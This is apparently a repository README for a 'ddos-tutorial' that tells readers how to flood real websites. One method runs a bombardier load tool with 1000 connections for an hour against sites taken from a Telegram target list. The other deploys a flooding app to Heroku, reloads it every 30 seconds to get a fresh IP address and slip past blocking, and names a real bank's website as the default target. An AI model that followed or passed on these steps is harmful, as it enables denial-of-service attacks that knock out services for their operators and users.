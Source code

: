 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git push heroku master
```
5. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
6. In order to change destination, please change in the code `https://www.tinkoff.ru/` to any other destination and redeploy app: 
```
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
